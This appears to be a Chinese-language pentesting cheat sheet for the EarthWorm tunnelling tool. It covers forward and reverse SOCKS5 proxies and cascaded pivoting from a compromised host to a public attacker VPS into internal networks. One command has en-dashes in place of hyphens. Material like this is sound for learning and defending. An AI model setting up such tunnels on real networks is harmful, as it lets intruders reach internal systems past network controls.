官方提供的方法就已经很好了，配套的Termite更不错，Termite中，只要节点互通，就可以任意切换代理。  

### 正向 SOCKS v5 服务器

在具有公网IP时：  

`./ew -s ssocksd -l 1080`  
### 反弹 SOCKS v5 服务器

先在一台具有公网 ip :233.233.233.233的主机A上运行以下命令：  

`./ew -s rcsocks -l 1080 -e 8888`  
在目标主机B上启动 SOCKS v5 服务 并反弹到公网主机的 8888端口  

`./ew -s rssocks -d 233.233.233.233 -e 8888`  
HackTools 可通过访问=233.233.233.233:1080端口使用 rssocks 主机提供的 socks5 代理服务  

### 二级级联

环境示意图：  
![](../pictures/porttransfer3.png)    

环境说明（一）：V1主机配有2块网卡，一块连通外网，一块10.255.11.8只能连接内网V2主机，无法访问内网其它资源。V2主机可以访问内网资源，但无法访问外网。  
```
# V2执行，利用ssocksd方式启动8888端口的socks代理
./ew -s ssocksd -l 8888
# V1执行，将来自外部的1080端口的代理请求转发到V2的8888端口上
./ew -s lcx_tran -l 1080 -f 10.255.11.3 -g 8888
# Attack执行，使用Proxifier等建立正常的socks代理访问1080端口
```
环境说明（二）：V1主机没有公网IP，也无法访问内网资源。V2主机可以访问内网资源，但无法访问外网。  

```
# VPS执行，把来自外部的1080端口的流量转到本地的8888端口上
./ew –s lcx_listen –l 1080 –e 8888
# V2执行，在本地启动socks5代理并监听9999端口
./ew -s ssocksd -l 9999
# V1执行，把vps的8888端口和V2的9999进行绑定,即建立socks5通道
./ew -s lcx_slave -d 123.123.1.1 -e 8888 -f 10.255.11.3 -g 9999
# Attack执行，使用Proxifier等建立正常的socks代理访问1080端口
```
